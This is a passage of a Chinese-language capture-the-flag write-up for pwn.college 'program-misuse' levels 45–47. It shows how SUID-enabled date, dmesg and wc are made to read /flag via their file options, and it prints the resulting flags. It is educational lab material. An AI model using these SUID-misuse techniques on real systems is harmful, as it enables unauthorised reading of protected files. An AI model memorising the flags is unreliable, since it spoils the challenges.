 手册里写了-f读文件
```
hacker@program-misuse-level-45:~$ date -f /flag
date: invalid date 'pwn.college{E0wTS_9vWAv5Z6QWVWGpaHKER5P.01N4EDL2QjMyMzW}'
hacker@program-misuse-level-45:~$
```

## level46 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-46:~$ sh file.sh
Welcome to ./babysuid_level46!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/dmesg.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level46) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/dmesg!
```
显示开机时间之类的东西
```
hacker@program-misuse-level-46:~$ dmesg -F /flag
[    0.000000] pwn.college{Q8U4rT5_srr0BlLq1ZlDOJx0yDe.0FO4EDL2QjMyMzW}
hacker@program-misuse-level-46:~$
```
都是看手册

## level47 Just straight up wasn't designed to let you read files!
```
hacker@program-misuse-level-47:~$ sh file.sh
Welcome to ./babysuid_level47!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/wc.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level47) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/wc!
```
`wc`一般用于统计行号、字数什么的。
```
hacker@program-misuse-level-47:~$ wc --files0-from=/flag
wc: 'pwn.college{shy1dFSZ2LmpPnQ-OAl_RoDeLxh.0VO4EDL2QjMyMzW}'$'\n': No such file or directory
hacker@program-misuse-level-47:~$
```
从手册来看就上面这个不是统计数量的，因此就它了！
